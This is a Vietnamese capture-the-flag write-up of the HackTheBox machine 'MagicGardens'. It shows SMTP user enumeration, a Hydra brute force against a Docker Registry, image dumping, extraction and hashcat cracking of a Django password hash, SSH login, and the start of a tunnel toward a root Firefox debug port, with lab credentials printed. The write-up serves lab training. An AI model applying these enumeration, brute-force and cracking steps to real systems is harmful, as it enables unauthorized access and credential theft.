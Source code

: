 ```yaml
---
title: "MagicGardens"
date: 2024-05-23 23:38:00 +0700
categories: [hackthebox]
tags: [hackthebox, web]
authors: [toan]
toc: true
---
```

## Introduction
Machine thuộc sessons 5, thuộc vào level cực khó, Linux :>. Trong bài này có thể khai thác lổ hỏng qua port (5000) - Docker Registry -> reverse shell -> khai thác firefox debug đang chạy dưới quyền root -> root flag. User flag thì chưa biết làm :>

## Recons
Đầu tiên cần nhận diện thứ gì ở mục tiêu
![image.png](https://i.postimg.cc/YSxRzCS2/image.png)
Mình đã test trên port 80, scan dir, vhost đủ kiểu. có 1 dir đáng ngờ `/admin`, nó đang dùng django CMS, nhưng các PoC hay CVE ko tác dụng với nó. Chuyển sang smtp_enum để tìm user.
```shell
-> msfconsole
msf6 > search smtp_enum

Matching Modules
================

   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/smtp/smtp_enum                   normal  No     SMTP User Enumeration Utility


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smtp/smtp_enum

msf6 > use 0
msf6 auxiliary(scanner/smtp/smtp_enum) > show options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
   RHOSTS                                                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      25                                                             yes       The target port (TCP)
   THREADS    1                                                              yes       The number of concurrent threads (max one per host)
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.10.14.18
RHOSTS => 10.10.14.18
msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/wordlists/seclists/Usernames/Names/names.txt
USER_FILE => /usr/share/wordlists/seclists/Usernames/Names/names.txt
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 10.10.14.18:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.10.11.9
RHOSTS => 10.10.11.9
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 10.10.11.9:25         - 10.10.11.9:25 Banner: 220 magicgardens.magicgardens.htb ESMTP Postfix (Debian/GNU)
```
Sau scan xong bạn sẽ thấy `alex`.
## Exploit
[5000-pentesting-docker-registry](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry)
Bạn có thể đọc nó. khi test req lên port 5000 ta thấy docker yêu cầu xác thực, tiến hành bruteforce nó với name là `alex`.

```shell
➜  ~ hydra -l alex -P /usr/share/wordlists/rockyou.txt 10.10.11.9  -s 5000 https-get /v2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 23:47:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-gets://10.10.11.9:5000/v2/
[5000][http-get] host: 10.10.11.9   login: alex   password: diamonds
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 23:47:36
➜  ~
```
`alex:diamonds`<br>
rồi xem docker tại port 5000 thôi :>
```shell
➜  ~ curl -k -u alex:diamonds  https://magicgardens.htb:5000/v2/_catalog
{"repositories":["magicgardens.htb"]}
➜  ~ cd payload/DockerRegistryGrabber
➜  DockerRegistryGrabber git:(main) ✗ ls
README.md  deploy.sh  deploybasicauth.sh  drg.py  magicgardens.htb  pyproject.toml  requirements.txt  screenshot
➜  DockerRegistryGrabber git:(main) ✗ python drg.py https://magicgardens.htb:5000 -U alex -P diamonds --list
Dunno what happend but something fucked up Failed to parse: https://magicgardens.htb:5000:5000/v2/_catalog
➜  DockerRegistryGrabber git:(main) ✗ python drg.py https://magicgardens.htb -U alex -P diamonds --list
[+] magicgardens.htb
➜  DockerRegistryGrabber git:(main) ✗ python drg.py https://magicgardens.htb -U alex -P diamonds --dump_all
```
dump hết thôi :>> rồi vào check. Tìm từng file trong đấy sẽ thấy có file db `/usr/src/app/db.sqlite3`
```shell
➜  magicgardens.htb git:(main) ✗ sqlite3 480311b89e2d843d87e76ea44ffbb212643ba89c1e147f0d0ff800b5fe8964fb/usr/src/app/db.sqlite3
SQLite version 3.44.0 2023-11-01 11:23:50
Enter ".help" for usage hints.
sqlite> .talbes
Error: unknown command or invalid arguments:  "talbes". Enter ".help" for help
sqlite> .tables
auth_group                  django_content_type
auth_group_permissions      django_migrations
auth_permission             django_session
auth_user                   store_order
auth_user_groups            store_product
auth_user_user_permissions  store_storemessage
django_admin_log            store_storeuser
sqlite> select * from auth_user
   ...> ;
2|pbkdf2_sha256$600000$y1tAjUmiqLtSdpL2wL3h56$61u2yMfK3oYgnL31fX8R4k/0hTc6YXRfiOH4LYVsEXo=|2023-06-06 17:34:56.520750|1|morty|||1|1|2023-06-06 17:32:24|
sqlite>
```
password của morty bị hash r -> đây là Django (PBKDF2-SHA256), thử crack nó.
```shell
➜  ~ hashcat -m 10000 -a 0 hash /usr/share/wordlists/rockyou.txt --show
pbkdf2_sha256$600000$y1tAjUmiqLtSdpL2wL3h56$61u2yMfK3oYgnL31fX8R4k/0hTc6YXRfiOH4LYVsEXo=:jonasbrothers
➜  ~ cat hash
pbkdf2_sha256$600000$y1tAjUmiqLtSdpL2wL3h56$61u2yMfK3oYgnL31fX8R4k/0hTc6YXRfiOH4LYVsEXo=
```
![image.png](https://i.postimg.cc/4xXRfnjs/image.png)
Dùng `morty:jonasbrothers` có thể login vào ssh nhưng đây không chứa user flag :V <br>
Check process đang chạy hoặc dùng `linpeas` để check sẽ thấy một process đáng ngờ là firefox debug.
![image.png](https://i.postimg.cc/qMd9wzJy/image.png)
Mấy group bên trung hay forum hacker bảo đây là lổ hỏng có thể khai thác r đọc file :< Check netstat thì thấy nó đang chạy vài cổng thử tạo tunel rồi check -> dùng `chisel` tool. [chisel's source](https://github.com/jpillora/chisel)
![image.png](https://i.postimg.cc/1XYV9L3Z/image.png)
firefox-esr chạy trên port 36825 -> tạo tunel check 
![image.png](https://i.postimg.cc/dVCZYNMz/image.png)
